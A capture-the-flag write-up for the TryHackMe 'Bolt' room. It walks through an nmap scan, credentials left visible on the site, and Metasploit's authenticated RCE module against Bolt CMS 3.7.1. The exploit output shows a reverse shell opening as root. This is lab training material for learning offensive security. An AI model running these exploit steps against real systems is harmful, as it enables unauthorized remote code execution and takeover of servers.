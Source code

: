 ```yaml
---
title: Bolt - Tryhackme
author: Sarang P
date: 2021-10-09 09:30:00 +0530
categories: [Tryhackme]
tags: [security, web, cve, bolt, RCE]
---
```


![](/assets/img/posts/bolt/1.png)

Room : [https://tryhackme.com/room/Bolt](https://tryhackme.com/room/Bolt)

Author : [0x9747](https://twitter.com/0x9747/)

## Reconnaissance:

lets start with `nmap` scan 

```bash
┌──(de4dl0ck㉿kali)-[~/thm/bolt]
└─$ nmap -p 22,80,8000 -A 10.10.101.136 --min-rate 10000
Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-09 14:21 IST
Nmap scan report for 10.10.101.136
Host is up (0.40s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f3:85:ec:54:f2:01:b1:94:40:de:42:e8:21:97:20:80 (RSA)
|   256 77:c7:c1:ae:31:41:21:e4:93:0e:9a:dd:0b:29:e1:ff (ECDSA)
|_  256 07:05:43:46:9d:b2:3e:f0:4d:69:67:e4:91:d3:d3:7f (ED25519)
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
8000/tcp open  http    (PHP 7.2.32-1)

```

There are 3 ports are open, on port 80 Apache2 Ubuntu Default Page  is running.

![](/assets/img/posts/bolt/2.png)

Looking at port 8000 we get webpage called Bolt A hero is unleashed. The webpage running on `Bolt CMS 3.7.1`

![](/assets/img/posts/bolt/3.png)

While going through webpage we can see credentials a username and password on article

![](/assets/img/posts/bolt/4.png)

![](/assets/img/posts/bolt/5.png)

## Foothold:

There is a wellknown exploit on Bolt CMS 3.7.1 that is authenticated RCE ([EDB-ID](https://www.exploit-db.com/exploits/48296):48296) 

![](/assets/img/posts/bolt/7.png)

We can get same exploit on metasploit module

![](/assets/img/posts/bolt/6.png)


Set the LHOST, LPORT, RHOST, USERNAME, PASSWORD in msfconsole before running the exploit

```bash

msf6 exploit(unix/webapp/bolt_authenticated_rce) > set RHOSTS 10.10.206.103
RHOSTS => 10.10.206.103
msf6 exploit(unix/webapp/bolt_authenticated_rce) > set LHOST tun0
LHOST => 10.4.51.77
msf6 exploit(unix/webapp/bolt_authenticated_rce) > set USERNAME bolt
USERNAME => bolt
msf6 exploit(unix/webapp/bolt_authenticated_rce) > set PASSWORD {--REDACTED--}
PASSWORD => {--REDACTED--}
msf6 exploit(unix/webapp/bolt_authenticated_rce) > exploit
```
We can get flag from `/home` directory.

```bash
msf6 exploit(unix/webapp/bolt_authenticated_rce) > exploit

[*] Started reverse TCP handler on 10.4.51.77:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. Successfully changed the /bolt/profile username to PHP $_GET variable "yestv".
[*] Found 2 potential token(s) for creating .php files.
[+] Deleted file vejeogxtqsvv.php.
[+] Used token c3a4db83bdf4026bdba7efa72c to create qkwuxangjd.php.
[*] Attempting to execute the payload via "/files/qkwuxangjd.php?yestv=`payload`"
[!] No response, may have executed a blocking payload!
[*] Command shell session 1 opened (10.4.51.77:4444 -> 10.10.206.103:41336) at 2021-10-09 21:06:08 +0530
[+] Deleted file qkwuxangjd.php.
[+] Reverted user profile back to original state.

id
uid=0(root) gid=0(root) groups=0(root)
hostname
bolt
cat flag.txt
THM{--REDACTED--}
```

### Thank you for reading my writeup
